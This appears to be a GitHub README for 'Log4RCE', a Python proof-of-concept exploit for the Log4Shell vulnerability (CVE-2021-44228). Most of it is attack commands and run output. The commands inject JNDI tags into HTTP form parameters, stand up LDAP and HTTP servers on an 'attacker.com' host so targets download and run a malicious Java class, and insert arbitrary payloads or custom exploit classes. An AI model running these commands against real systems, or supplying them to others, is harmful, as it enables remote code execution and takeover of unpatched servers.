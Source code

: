 # Python Log4RCE

An all-in-one pure Python3 PoC for [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228).

## Sample

```bash
> python3 log4rce.py --target "linux" --payload "PAYLOAD" http --url "http://localhost:8080/" --data "address=###"
```

```
INFO:root:HTTP -> Running on local port 1337
INFO:root:Target Class -> http://127.0.0.1:1337/LinuxExploit.class
INFO:root:LDAP -> Running on local port 1387
INFO:root:HTTP -> Sending payload to http://localhost:8080/
127.0.0.1 - - [12/Dec/2021 20:59:55] "GET /LinuxExploit.class HTTP/1.1" 200 -
INFO:root:Done!
```

## Usage

This is a CLI tool. All options can be found in the help menu:

```
python3 log4rce.py --help
```

The list is pretty extensive, therefore the following will give you a summary of the functionality.

### Attack Modes

The tool allows you to use a few attack modes. These attacks are extensions of the `Log4RCE` class.

#### HTTP

You can perform an automatic HTTP post request using the following:

```
python3 log4rce.py http --url "http://www.vuln.com:1234/" --data "vuln_param=###"
```

The previous will inject the JNDI tag into the `###` in the form data.

#### Manual

If you cannot use any of the previous, use this mode to dump the JDNI tag:

```bash
python3 log4rce.py manual
```

### Network Settings

The tool allows extensive customization for most network configuration. All the internal servers can be modified to point to different locations according the the remote settings.

#### HTTP Server

You can configure the HTTP server using the following parameters:

```
python3 log4rce.py --http_port 1234 --http_rport 12345 --http_host "attacker.com"
```

```
http_port: The local port to run the server on.
http_rport: The port that a remote machine accesses.
http_host: The host name/IP a remote machine accesses. 
```

#### LDAP Server

You can configure the LDAP server using the following parameters:

```
python3 log4rce.py --ldap_port 1234 --ldap_rport 12345 --ldap_host "attacker.com"
```

```
ldap_port: The local port to run the server on.
ldap_rport: The port that a remote machine accesses.
ldap_host: The host name/IP a remote machine accesses. 
```

### Customization

The tool allows can handle some customization. The following lists some functionality you may be interested in.

### Injecting Payload

You can inject a payload into the Java class using:

```bash
python3 log4rce.py --payload "PAYLOAD"
```

The payload will be injected into `"###"` strings.

### Custom Java Payload

You can build your own Java class using the following. 

```bash
javac /path/to/Exploit.java
```

The resulting `.class` can be run using:

```bash
python3 log4rce.py --java_class "/path/to/Exploit.class" ...
```

Note: You can add a string `"###"` to allow payload injection.
